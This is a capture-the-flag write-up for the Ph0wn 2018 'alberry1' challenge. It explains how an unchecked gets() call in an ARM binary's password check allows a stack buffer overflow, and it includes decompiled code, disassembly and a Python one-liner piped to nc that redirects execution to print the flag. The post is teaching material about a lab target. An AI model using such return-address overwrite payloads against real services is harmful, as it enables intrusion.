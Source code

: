 ```yaml
---
layout: post
title: "Ph0wn 2018 - alberry1"
mathjax: true

date: 2018-12-14
---
```


*Basic Stack buffer overflow in an arm binary*

<!--more-->

### Description

*TODO ADD*

### Details

Points:      ?

Category:    exploit

Validations: ?

### Solution

We were given a ELF binary file called [alberry1](/resources/2018/ph0wn/alberry1/alberry1).
The main function consist of reading a password to arm or disarm the alarm.

When opening the binary in IDA, a little quirk happend. The function is not showing correctly on the graph view because of the function *__aeabi_read_tp* that is not returning.

<img src="/resources/2018/ph0wn/alberry1/ida_bug.png" width="800">

To fix this bug, do a right click on *printf* function, then untick non returning function. In order to have a nice decompiled view as well, delete the *runMain* function and recreate it.

<img src="/resources/2018/ph0wn/alberry1/ida_good.png" width="800">

oH yeah, sweat, reversing the checkPassword() function led to discover a buffer overflow:

```c
int checkPassword()
{
  int v0; // r0
  int result; // r0
  char v2; // [sp+4h] [bp-18h]

  gets(&v2); // BUFFER OVERFLOW
  v0 = strlen(&v2);
  hash2(&v2, v0, &hashBuffer);
  result = memcmp(&currentPasswd, &hashBuffer, 32);
  if ( !result )
    logged = 1;
  return result;
```

Looking in IDA pro shows that the buffer overflowed is 0x18 bytes long.

We need to found a way to leak the flag. The flag is read using a function called *readFlag()*. Inside the main function, there is a snippet that do exactly this:

```shell
.text:00011578 70 00 9F E5                             LDR     R0, =aAlarmDisarmed ; jumptable 00011548 case 1
.text:0001157C CC 22 00 EB                             BL      puts
.text:00011580 6C 10 9F E5                             LDR     R1, =flagDisarmed
.text:00011584 6C 00 9F E5                             LDR     R0, =aYourFlagIsS ; "Your flag is: %s\n"
.text:00011588 20 1F 00 EB                             BL      printf
```
The exploit is as simple as triggering the buffer overflow with 0x18 bytes of junk and the the address *0x011578* we found earlier. 

The exploit is:

```shell
 python2 -c 'print "A"*24 + "\x78\x15\x01\x00"' | nc 10.210.17.68 12345

############################################
# Welcome to Al Berry interface management #
############################################
#          Your alarm is *ARMED*           #
############################################

Password: 
Alarm disarmed
Your flag is: ph0wn{Enjoy_the_Silence}
```

Challenges resources are available in the [resources folder](https://github.com/duksctf/duksctf.github.io/tree/master/resources/2018/ph0wn/alberry1)

